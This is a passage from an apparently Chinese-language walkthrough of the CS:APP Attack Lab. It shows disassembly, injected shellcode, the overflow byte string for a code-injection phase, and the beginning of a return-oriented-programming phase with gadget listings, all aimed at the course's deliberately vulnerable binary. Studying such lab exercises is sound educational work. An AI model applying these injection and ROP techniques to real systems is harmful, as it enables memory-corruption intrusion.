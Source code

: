 ```assembly
  4019cf:	0f b6 b7 b0 34 40 00 	movzbl 0x4034b0(%rdi),%esi
  4019d6:	48 63 c9             	movslq %ecx,%rcx
  4019d9:	40 88 b1 00 45 60 00 	mov    %sil,0x604500(%rcx)
  4019e0:	83 c2 02             	add    $0x2,%edx
  4019e3:	48 63 d2             	movslq %edx,%rdx
  4019e6:	c6 82 00 45 60 00 20 	movb   $0x20,0x604500(%rdx)
  4019ed:	83 c0 01             	add    $0x1,%eax
  4019f0:	89 05 0e 37 20 00    	mov    %eax,0x20370e(%rip)        # 605104 <gets_cnt>
  4019f6:	f3 c3                	repz retq 
```

&emsp;&emsp;可以看到`mov`操作的终点的偏移大部分为`0x604500`，因此这很大可能是存储字符串的指针的基地址。

&emsp;&emsp;这样，我们就可以写出如下植入代码：

```assembly
pushq $0x4018fa
mov $0x604500,%rdi          # the string pointer's address, where the result of Gets is stored
movq $0x39623935,(%rdi)
movq $0x61663739,0x4(%rdi)
ret
```

&emsp;&emsp;剩余部分和阶段二相似，最终得到的字符串如下：

```txt
68 fa 18 40 00 48 c7 c7
00 45 60 00 48 c7 07 35 
39 62 39 48 c7 47 04 39 
37 66 61 c3 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

### 3.返回导向编程(ROP)

&emsp;&emsp;ROP(Return-Oriented Programming)通过识别已有程序中已有的字节序列来实现攻击，这些字节序列包含一些别的指令已经结尾的`ret`。这些字节序列被叫做小工具（gadget）

&emsp;&emsp;小工具可以**使用与编译器生成的汇编语言语句对应的代码**。虽然单个小工具并不能实现有效的攻击，但是通过把小工具组合起来，我们可以达到和植入代码一样的效果。

#### &emsp;&emsp;$a.$Phase 4

&emsp;&emsp;根据提示，识别出需要的小工具如下：

```assembly
# movq %rax %rdi
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

# gadget movq %rax %rdi
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

# gadget popq %rax
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq  
```

